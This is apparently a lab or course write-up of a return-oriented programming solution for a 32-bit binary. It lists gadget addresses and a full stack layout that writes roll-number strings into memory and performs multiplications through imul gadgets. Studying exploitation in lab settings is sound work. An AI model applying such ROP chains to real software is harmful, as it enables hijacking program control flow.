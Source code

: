 # ROP

## Below are the steps used to solve the problem

Gadgets we have used :

1) To fill values in registers
    (a) eax -  0x080b8376 : pop eax ; ret
    (b) ecx -  0x080dec61 : pop ecx ; ret
    (c) edx -  0x0805bf42 : pop edx ; ret
    (d) edi -  0x08048480 : pop edi ; ret
    (e) esi -  0x08048433 : pop esi ; ret
    
2) To write into an address :
    --> First fill eax and edx appropriately, then use 
    (a) 0x08065a43 : mov word ptr [edx], ax ; mov eax, edx ; ret     
    (b) 0x08054bfb : mov dword ptr [edx], eax ; ret
    
3) For multiplication :
    --> First fill ecx with correct address,make sure eax has correct value, then use
    0x08063258 : imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret
    
4) To store eax in a register, and then retrieve that value. ( We had to use eax for both mutiplication and store into address)
    --> Store in ebx, then load from ebx again. 
    0x080d64bb : push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret 
    0x0804f44a : mov eax, ebx ; pop ebx ; ret







We have to fill the stack like this: with (ra) to main at top.


0x08048983   (ra) to main\ 
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00003332   (32 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea07e   (rollnumber2+6 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00004230   (B0 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea07c   (rollnumber2+4 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00003138   (18 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea07a   (rollnumber2+2 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00003536   (56 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea06e   (rollnumber1+6 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00004230   (B0 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea06c   (rollnumber1+4 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\
0x08065a43   (ra) corresponds to mov word ptr [edx], ax ; mov eax, edx ; ret\
0x00003138   (18 on top of stack)\
0x080b8376   (ra)corresponds to (pop eax;ret)\
0x080ea06a   (rollnumber1+2 on top of stack)\
0x0805bf42   (ra) corresponds to pop edx;ret\

0x08054bfb   (ra) corresponds to mov dword ptr [edx], eax ; ret glb = 720\
0x080eba20   (address of glb)\
0x0805bf42   (ra) corresponds to pop edx;ret edx = glb\
0x00000000   (random value on top of stack)\
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 720\
0x00000000   (random value on top of stack)\
0x0804f44a   (ra) corresponds to mov eax, ebx ; pop ebx ; ret  #eax = 360\
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 2\
0x080eba20   (address of glb)\
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb \
0x00000002   (2 on top stack) \
0x080b8376   (ra) corresponds to pop eax;ret # eax= 2 \
0x080eba20   (address of glb)\
0x080dec61   (ra) corresponds to pop ecx;ret #ecx = &glb\
0x080d64bb   (ra) corresponds to push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret ebx = 360\
0x00000000   (random value on top of stack)\
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 360\
0x00000000   (random value on top of stack)\
0x0804f44a   (ra) corresponds to mov eax, ebx ; pop ebx ; ret  #eax = 120\
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 3\
0x080eba20   (address of glb)\
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb\
0x00000003   (3 on top stack)\
0x080b8376   (ra) corresponds to pop eax;ret # eax= 3\
0x080eba20   (address of glb)\
0x080dec61   (ra) corresponds to pop ecx;ret #ecx = &glb\
0x080d64bb   (ra) corresponds to push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret ebx = 120\
0x00000000   (random value on top of stack)\
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 120\
0x00000000   (random value on top of stack)\
0x0804f44a   (ra) corresponds to mov eax, ebx ; pop ebx ; ret  #eax = 30\
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 4\
0x080eba20   (address of glb)\
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb\
0x00000004   (4 on top stack)\
0x080b8376   (ra) corresponds to pop eax;ret # eax= 4\
0x080eba20   (address of glb)\
0x080dec61   (ra) corresponds to pop ecx;ret #ecx = &glb\
0x080d64bb   (ra) corresponds to push eax ; pop ebx ; or cl, byte ptr [esi] ; adc al, 0x41 ; ret ebx = 30\
0x00000000   (random value on top of stack)\
0x08063258   (ra) corresponds to  imul dword ptr [ecx] ; rcr byte ptr [edi + 0x5e], 1 ; pop ebx ; ret   eax = 30\
0x00000006   (6 on top of stack)\
0x080b8376   (ra) corresponds to #pop eax;ret    eax = 6\
0x08054bfb   (ra) corresponds to # mov dword ptr [edx], eax ; ret   glb = 5 \
0x080eba20   (address of glb on top of stack)\
0x0805bf42   (ra) corresponds to # pop edx;ret   // edx = &glb\
0x00000005   (5 on top of stack)\
0x080b8376   (ra) corresponds to #pop eax ; ret \
0x080eba20   (address of glb)\
0x080dec61   (ra) corresponds to  # pop ecx;ret  // ecx = &glb\
0xffffd000   (some acccessible stack address)\
0x08048480   (ra) corresponds to  pop edi;ret\
0xffffd05e   (some acccessible stack address)\
0x08048433   (ra) corresponds to pop esi ; ret\















